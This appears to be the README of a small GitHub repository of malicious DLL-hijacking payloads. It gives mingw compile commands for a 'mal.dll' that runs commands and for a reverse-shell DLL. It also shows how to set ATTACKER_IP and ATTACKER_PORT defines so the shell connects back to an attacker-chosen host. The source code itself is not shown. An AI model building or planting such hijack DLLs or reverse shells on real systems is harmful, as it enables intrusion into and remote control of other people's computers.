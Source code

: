 # DllHijacks
Just a small repo containing various DLL hijacks

# BasicCmd Compilation

```
x86_64-w64-mingw32-gcc mal.c -shared -o mal.dll
```

# ReverseShell Compilation

Ensure to configure the ATTACKER\_IP and ATTACKER\_PORT defines, otherwise it won't compile

Here is an example configuration (Note: The IP is in quotes, and the port is not!):

```
#define ATTACKER_IP "127.0.0.1"
#define ATTACKER_PORT 1337
```

```
x86_64-w64-mingw32-gcc mal.c -shared -lws2_32 -o mal.dll
```
